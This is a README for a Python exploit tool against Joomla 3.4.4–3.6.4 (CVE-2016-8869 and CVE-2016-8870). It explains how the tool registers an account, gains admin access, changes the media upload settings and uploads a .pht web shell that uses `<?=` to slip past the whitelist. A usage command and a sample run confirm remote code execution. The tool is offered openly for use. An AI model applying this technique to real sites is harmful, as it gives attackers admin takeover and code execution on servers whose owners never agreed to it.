 # Exploit for Joomla 3.4.4 - 3.6.4 (CVE-2016-8869 and CVE-2016-8870) with File Upload web shell

While analysing the recent Joomla exploit in `com_users:user.register` we came across a problem with the upload whitelisting. They don't allow files containing `<?php`, or with the extensions `.php` and `.phtml`, but they do allow `<?=` and `.pht` files, which works out of the box on most hosting environments, including the standard Ubuntu LAMP install, as per:

```
<FilesMatch ".+\.ph(p[345]?|t|tml)$">
    SetHandler application/x-httpd-php
</FilesMatch>
```

## Usage

Choose the username, password and e-mail address to use and point it at the URL for your Joomla website. Use the `-x` and `-s` options to customise exploit behaviour, `-s` searches for the given string in the output after running the PHP file (specified in `-x`), an example is provided which proves remote code execution.

```
$ ./joomraa.py -u hacker -p password -e hacker@example.com http://localhost:8080/joomla 
                                                                                                                    
     @@@   @@@@@@    @@@@@@   @@@@@@@@@@   @@@@@@@    @@@@@@    @@@@@@   @@@  
     @@@  @@@@@@@@  @@@@@@@@  @@@@@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@@  @@@  
     @@!  @@!  @@@  @@!  @@@  @@! @@! @@!  @@!  @@@  @@!  @@@  @@!  @@@  @@!  
     !@!  !@!  @!@  !@!  @!@  !@! !@! !@!  !@!  @!@  !@!  @!@  !@!  @!@  !@   
     !!@  @!@  !@!  @!@  !@!  @!! !!@ @!@  @!@!!@!   @!@!@!@!  @!@!@!@!  @!@  
     !!!  !@!  !!!  !@!  !!!  !@!   ! !@!  !!@!@!    !!!@!!!!  !!!@!!!!  !!!  
     !!:  !!:  !!!  !!:  !!!  !!:     !!:  !!: :!!   !!:  !!!  !!:  !!!       
!!:  :!:  :!:  !:!  :!:  !:!  :!:     :!:  :!:  !:!  :!:  !:!  :!:  !:!  :!:  
::: : ::  ::::: ::  ::::: ::  :::     ::   ::   :::  ::   :::  ::   :::   ::  
 : :::     : :  :    : :  :    :      :     :   : :   :   : :   :   : :  :::  

[-] Getting token
[-] Creating user account
[-] Getting token for admin login
[-] Logging in to admin
[+] Admin Login Success!
[+] Getting media options
[+] Setting media options
[*] Uploading exploit.pht
[*] Uploading exploit to: http://localhost:8080/joomla/images/OGBUHCF5F.pht
[*] Calling exploit
[$] Exploit Successful!
[*] SUCCESS: http://localhost:8080/joomla
```

## Licence

Licenced under the [WTFPL][wtfpl]

[wtfpl]: http://www.wtfpl.net/
